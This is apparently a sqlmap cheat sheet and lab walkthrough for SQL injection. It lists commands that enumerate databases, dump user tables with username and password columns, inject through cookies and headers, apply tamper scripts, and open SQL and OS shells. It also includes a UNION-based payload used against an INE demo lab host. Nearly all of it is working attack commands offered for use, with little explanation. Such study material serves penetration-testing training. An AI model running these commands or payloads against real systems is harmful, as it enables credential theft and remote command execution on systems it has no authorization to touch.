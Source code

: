 # Cheat Sheet

**Easy Scanning option**
<pre>sqlmap -u "http://testsite.com/login.php"</pre>

**List all databases at the site**
<pre>sqlmap -u "http://testsite.com/login.php" --dbs</pre>

**List all tables in a specific database**
<pre>sqlmap -u "http://testsite.com/login.php" -D site_db --tables</pre>

**List all columns in a table**
<pre>sqlmap -u "http://testsite.com/login.php" -D site_db -T users --dump</pre>

**Dump only selected columns**
<pre>sqlmap -u "http://testsite.com/login.php" -D site_db -T users -C username,password --dump
</pre>

**Dump a table from a database when you have admin credentials**
<pre>sqlmap -u "http://testsite.com/login.php" –method "POST" --data="username=admin&password=admin&submit=Submit" -D social_mccodes -T users --dump
</pre>

**Add Technique**
<pre>sqlmap -u "http://testsite.com/home.php?id=" --dbs --technique=U -p "id"</pre>

**Get SQL Shell**
<pre>sqlmap --dbms=mysql -u "http://testsite.com/login.php" --sql-shell </pre>

**Cookie Injection**
<pre>sqlmap --cookie="user_id=1" -u "http://localhost/index.php" -p "user_id" --level 3 </pre>

**User Agent Injection**
<pre>sqlmap  -u "http://localhost/index.php" --level 3 </pre>

**Apply custom tamper script**

Create a tamper script called "mytamper.py" in the /usr/share/sqlmap/tamper

<pre>sqlmap -u "http://2.challenge.sqli.site/view_book.php?id=3" --cookie="userchl2_info=" -p userchl2_info --level=2 --dbms=mysql --tamper=mytamper --banner</pre>


**Get Req Example**
<pre>sqlmap -u "url/ajax.php?fun=login&username=test&password=test" --keep-alive</pre>

**Post Req Example**

<pre>sqlmap -u "url" --data="fun=login&username=test&password=test"</pre>

# SQL Lab

## Example 1 with GET

![burp-1](img/burp-1.png)

    sqlmap -u "http://demo.ine.local/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title

Copy payload to burp suit (optional)

    Payload: title=hello' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x716b6a7671,0x4e50594a4d45724a614a474466694352614b6c4a6241657a686c6c597665586c6e58775355564776,0x7162766b71),NULL,NULL,NULL#&action=search

## Example 2 with POST

![burp-2](img/burp-2.png)

    sqlmap -u "http://demo.ine.local/sqli_6.php" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" --data "title=hello&action=search" -p title

### OR

From burp suite ave the file as "request".

![save-file](img/save.png)
![save-file](img/save-2.png)
![save-file](img/save-3.png)

    sqlmap -r request -p title

Additionally, we can gain an os shell using sqlmap's

    sqlmap -r request -p title --os-shell

![shell](img/shell.png)

<br/>

# Switches

**--user-agent**

**--referer**

**--headers**

**--technique= U | B | E**
